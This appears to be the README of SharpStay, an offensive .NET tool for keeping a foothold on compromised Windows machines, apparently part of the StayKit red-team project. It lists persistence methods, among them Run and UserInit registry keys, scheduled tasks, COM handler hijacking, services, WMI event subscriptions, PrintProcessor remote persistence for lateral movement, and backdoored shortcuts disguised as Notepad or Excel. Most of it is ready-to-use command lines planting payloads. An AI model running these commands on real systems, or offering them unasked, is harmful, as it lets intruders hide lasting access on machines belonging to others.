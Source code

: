 
### SharpStay - .NET Persistence 


#### Building
To compile open Visual Studio project and compile for release.

#### Options

  * Elevated Registry Keys
  * Elevated UserInit Registry Key
  * Elevated Scheduled Task
  * Elevated Create Service
  * Elevated WMI Event Subscription
  * Elevated PrintProcessor Persistence
    * supports LPE from high integrity to system process
    * supports remote persistence (meaning it can be used for lateral movement also)

  * Non-Elevated InitMprLogonScript Registry Key
  * Non-Elevated Scheduled Task COM Handler Hijack
  * Non-Elevated Junction Folder


  * Misc Add Scheduled Task Action
  * Misc Startup Directory
  * Misc New LNK
  * Misc Backdoor LNK
  * Misc Task Names
  * Misc List Scheduled Tasks
  * Misc List Running Services
  * Misc Get Scheduled Task COM Handlers

```
Sharpstay.exe action=ElevatedRegistryKey keyname=Debug keypath=HKCU:Software\Microsoft\Windows\CurrentVersion\Run command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=UserRegistryKey keyname=Debug keypath=HKCU:Software\Microsoft\Windows\CurrentVersion\Run command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=UserInitMprLogonScriptKey command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=ElevatedUserInitKey command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=ScheduledTask taskname=TestTask command="C:\windows\temp\file.exe" runasuser=user1 triggertype=logon author=Microsoft Corp. description="Test Task" logonuser=user1
```

```
Sharpstay.exe action=ScheduledTaskAction taskname=TestTask command="C:\Windows\temp\fun.exe" folder="\\" actionid=ExecAction
```

```
Sharpstay.exe action=SchTaskCOMHijack clsid={a47af52a-27f9-4426-bd2b-727050712db1} dllpath="C:\windows\temp\fun.dll"
```

```
Sharpstay.exe action=CreateService servicename=TestService command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=WMIEventSub command="C:\Windows\temp\fun.exe" eventname=Debugger attime=startup 
```

```
Sharpstay.exe action=PrintProcessor dllpath="C:\Windows\temp\printprocessor.dll" host="remoteserver"
```

```
Sharpstay.exe action=JunctionFolder dllpath="C:\windows\temp\fun.dll guid={a47af52a-27f9-4426-bd2b-727050712db1}
```

```
Sharpstay.exe action=NewLNK filepath="C:\users\admin\desktop" lnkname="Notepad.lnk" lnktarget="C:\Windows\temp\file.exe" lnkicon="C:\Windows\system32\notepad.exe"
```

```
Sharpstay.exe action=BackdoorLNK command="C:\Windows\temp\fun.exe" lnkpath="C:\users\user\desktop\Excel.lnk"
```

```
Sharpstay.exe action=ListTaskNames
```

```
Sharpstay.exe action=ListScheduledTasks
```

```
Sharpstay.exe action=ListRunningServices
```

```
Sharpstay.exe action=GetScheduledTaskCOMHandler
```

`cleanup=true` is an option for each persistence type.

Part of [StayKit](https://github.com/0xthirteen/StayKit)
